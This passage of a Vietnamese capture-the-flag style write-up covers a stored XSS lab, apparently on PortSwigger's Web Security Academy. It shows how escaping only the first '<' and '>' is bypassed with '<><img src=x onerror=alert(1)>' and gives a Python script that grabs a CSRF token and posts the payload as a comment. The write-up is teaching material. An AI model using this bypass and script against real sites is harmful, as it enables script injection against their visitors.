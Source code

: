 ```javascript
  }
}
```

để ý thấy `html.replace('<', '&lt;').replace('>', '&gt;');` chương trình chỉ filter `>` và `<` và sau đó tạo thẻ `<p>` chứa nội dung của chúng ta và chèn vào trang web ` commentSection.appendChild(document.createElement("p"));`

### Khai thác

- Nó encode dấu `<` và `>` nhưng nó lại không encode hết, nên phần sau của mình đã biến mất không còn dấu vết nào vì nó không được encode, chứng tỏ nó chỉ check lần xuất hiện đầu của dấu ngoặc này, nên mình sẽ để trống trong cặp ngoặc đầu và payload của mình ở cặp ngoặc sau
- `<><img src=x onerror=alert(1)>`

![image](https://hackmd.io/_uploads/SJcpgSDqa.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a2d000f0463bd5a803c08ff00c100a8.web-security-academy.net/'

session = requests.Session()
response = session.get(
    url + 'post?postId=5' ,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input' , {'name' : 'csrf'})['value']
payload = "<><img src=x onerror=alert(1)>"

data = {
    'csrf' : csrf,
    'postId' : '5',
    'comment' : payload,
    'name' : 'cuong',
    'email' : 'a@a.a',
    'website' : '',
}
response = session.post(
    url + "post/comment",
    data=data,
    verify=False,
)

response = session.get(
    url + 'post?postId=5' ,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
